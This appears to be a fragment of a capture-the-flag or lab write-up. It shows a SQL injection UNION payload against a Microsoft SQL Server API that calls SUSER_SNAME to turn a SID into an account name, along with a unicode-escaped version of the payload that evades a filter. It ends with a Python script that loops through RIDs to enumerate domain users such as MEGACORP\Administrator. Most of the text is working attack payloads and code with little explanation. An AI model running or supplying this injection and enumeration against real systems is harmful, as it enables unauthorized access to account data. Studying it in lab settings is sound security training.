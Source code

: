 
```
' UNION SELECT 1,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000),3,4,5--
```

```
\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0031\u002C\u0053\u0055\u0053\u0045\u0052\u005F\u0053\u004E\u0041\u004D\u0045\u0028\u0030\u0078\u0030\u0031\u0030\u0035\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0035\u0031\u0035\u0030\u0030\u0030\u0030\u0030\u0030\u0031\u0063\u0030\u0030\u0064\u0031\u0062\u0063\u0064\u0031\u0038\u0031\u0066\u0031\u0034\u0039\u0032\u0062\u0064\u0066\u0063\u0032\u0033\u0036\u0066\u0034\u0030\u0031\u0030\u0030\u0030\u0030\u0029\u002C\u0033\u002C\u0034\u002C\u0035\u002D\u002D
```

Another Payload
```
hello\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0031\u002C\u0053\u0055\u0053\u0045\u0052\u005F\u0053\u004E\u0041\u004D\u0045\u0028\u0030\u0078\u0030\u0031\u0030\u0035\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0035\u0031\u0035\u0030\u0030\u0030\u0030\u0030\u0030\u0031\u0063\u0030\u0030\u0064\u0031\u0062\u0063\u0064\u0031\u0038\u0031\u0066\u0031\u0034\u0039\u0032\u0062\u0064\u0066\u0063\u0032\u0033\u0036\u0066\u0034\u0030\u0031\u0030\u0030\u0030\u0030\u0029\u002C\u0033\u002C\u0034\u002C\u0035\u002D\u002D
```

```
MEGACORP\\Administrator
```


Let's automate this process
```
import json
import requests
from time import sleep

url = 'http://10.129.247.110/api/getColleagues'

# Encode our payload
def encode_me(str):
    val = []
    for i in str:
        val.append("\\u00"+hex(ord(i)).split("x")[1])
    
    return ''.join([i for i in val])

# Iterate RID
sid = ''
for i in range(500,10000):
    i = hex(i)[2:].upper()
    if len(i) < 4:
        i = '0' + i

    # Reverse our RID
    t = bytearray.fromhex(i)
    t.reverse()
    t = ''.join(format(x,'02x') for x in t).upper()+'0'*4

    # Build the request
    sid = '0x0105000000000005150000001c00d1bcd181f1492bdfc236{}'.format(t)
    payload = "hello' UNION SELECT 1,SUSER_SNAME({}),3,4,5--".format(sid)  
    r = requests.post(url,data='{"name":"'+ encode_me(payload) + '"}',headers={'Content-Type': 'Application/json'})

    user = json.loads(r.text)[0]["name"]

    if user:
        print(user)

```